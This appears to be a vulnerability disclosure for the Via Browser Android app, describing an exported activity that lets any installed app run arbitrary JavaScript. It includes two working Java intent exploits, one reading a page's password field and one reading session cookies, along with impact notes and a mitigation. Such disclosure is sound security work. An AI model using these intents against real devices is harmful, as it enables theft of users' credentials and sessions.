 <img src="assets/image-20241228224350375.png" alt="image-20241228224350375" style="zoom:80%;" />

# Vulnerability Report 

---

## Overview:  

A remote code execution (RCE) vulnerability has been discovered in the `mark.via.gp` application on the Android platform. This vulnerability allows attackers to execute arbitrary JavaScript code within the application context without any permissions.

## Application Details:  

- Vendor: - [Tu Yafeng](https://viayoo.com/)
- Application Name: 'Via Browser' mark.via.gp
- Version: 6.1.0
- Component: mark.via.Shell

## Vulnerability Details:  

- Vulnerability Type: Remote Code Execution (RCE)
- Attack Vector: Via an exported activity component
- Permissions Required: None

## Description:  

mark.via.Shell is an activity in the mark.via.gp application that has been incorrectly set to exported, allowing any third-party app to invoke it without requiring any permissions. Malicious applications can exploit this vulnerability to execute arbitrary JavaScript code within the context of the mark.via.gp app, potentially leading to security issues.

This vulnerability is particularly concerning because:

- The victim does not need to grant any special permissions to any installed applications.

- The attack can be initiated remotely.

## Proof of Concept (PoC): 

The following payload injects JavaScript to extract password data and browser session cookies without requiring any permissions.

### （1）Extract password data

```java
static Intent exploit() {
    Intent intent = new Intent(Intent.ACTION_VIEW);
    intent.setClassName("mark.via.gp","mark.via.Shell");
    String url = "javascript:(function()%7Bvar%20password%20%3D%20document.getElementById(%27pass%27).value%3Balert(%27Password%3A%20%27%20%2B%20password)%3B%7D)()";
    intent.setData(Uri.parse(url));
    return intent;
}
```

![facebook](assets/facebook.gif)

### （2）Session Cookie Theft:  

```java
static Intent exploit() {
    Intent intent = new Intent(Intent.ACTION_VIEW);
    intent.setClassName("mark.via.gp", "mark.via.Shell");
    String url = "javascript:(function()%7Balert(%27Session%20Cookies%3A%20%27%20%2B%20document.cookie)%3B%7D)()";
    intent.setData(Uri.parse(url));
    return intent;
}
```

![baidu](assets/baidu.gif)

## Impact: 

Successful exploitation allows an attacker to:

- Execute arbitrary JavaScript code within the context of the `mark.via.gp` app.

The enabled `'settings.setDomStorageEnabled(true)'` value in the app's WebView allows for the use of the Web Storage API.

## Risks include:  

Credential harvesting if websites store sensitive data. Manipulating or flooding stored values. Assisting in malicious persistence.

## Mitigation and Recommendations:

Restrict Activity Export: Do not export activities unless necessary. If required, implement proper authorization checks to ensure that only legitimate entities can invoke it.